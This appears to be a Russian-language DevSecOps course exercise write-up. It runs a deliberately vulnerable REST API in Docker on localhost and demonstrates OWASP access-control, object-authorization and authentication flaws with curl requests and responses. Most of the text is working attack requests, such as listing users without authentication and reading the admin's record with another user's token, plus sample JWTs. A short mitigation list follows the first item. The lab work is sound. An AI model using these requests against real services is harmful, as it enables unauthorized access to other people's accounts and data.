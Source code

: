 ## Задание 2
Скачать уязвимый образ с docker.hub, выполнив команду из консоли docker pull ket9/otus-devsecops-owasp-rest
Запустить образ docker run -d -p 8080:8080 ket9/otus-devsecops-owasp-rest:latest
Зайти на http://localhost:8080/, посмотреть, какой функционал доступен в приложении.
Наполнить базу данных, перейдя по ссылке http://localhost:8080/createdb

### A01:2021 – Broken Access Control (Нарушение управления доступом)
```
curl http://localhost:8080/users/v1/register \
     -H "Content-Type: application/json" \
     -d '{"username": "testuser3", "password": "123459", "email": "testuser3@example.com"}'
{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}%

curl http://localhost:8080/users/v1
{"users":[{"email":"mail1@mail.com","username":"name1"},{"email":"mail2@mail.com","username":"name2"},{"email":"admin@mail.com","username":"admin"},{"email":"testuser@example.com","username":"testuser"},{"email":"testuser2@example.com","username":"testuser2"},{"email":"testuser3@example.com","username":"testuser3"}]}
```
Как защититься?
```
Закрыть доступ к /users/v1, требовать аутентификацию.
Фильтровать вывод (например, не показывать email).
Добавить rate limiting на регистрацию.
```
## API1:2023 Broken Object Level Authorization
```
curl -X POST http://localhost:8080/users/v1/login \
     -H "Content-Type: application/json" \
     -d '{"username": "testuser3", "password": "123459"}'
```
С полученным токеном:

curl -X GET http://localhost:8080/users/v1/admin \
     -H "Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9eyJleHAiOjE3NDI3MzczNTgsImlhdCI6MTc0MjczNzI5OCwic3ViIjoidGVzdHVzZXIzIn0P8qJ4ymAxFhiExQHwPz0Ge202Iu0WWfhzkqam29wU2Y"
```
получил ответ:
```
{"username": "admin", "email": "admin@mail.com"}%
```


## API2:2023 Broken Authentication


```
curl -X POST http://localhost:8080/users/v1/login \
     -H "Content-Type: application/json" \     -d '{"username": "testuser3", "password": "123459"}'
{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3NDI3MzgzNTAsImlhdCI6MTc0MjczODI5MCwic3ViIjoidGVzdHVzZXIzIn0.RU0xmFFpjDz5TJAlYoINURvERBgyihJhjPs-8rl8tVE", "message": "Successfully logged in.", "status": "success"}

curl -X GET http://localhost:8080/users/v1/testuser2 \
     -H "Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3NDI3MzgzNTAsImlhdCI6MTc0MjczODI5MCwic3ViIjoidGVzdHVzZXIzIn0.RU0xmFFpjDz5TJAlYoINURvERBgyihJhjPs-8rl8tVE"
{"username": "testuser2", "email": "testuser2@example.com"}%
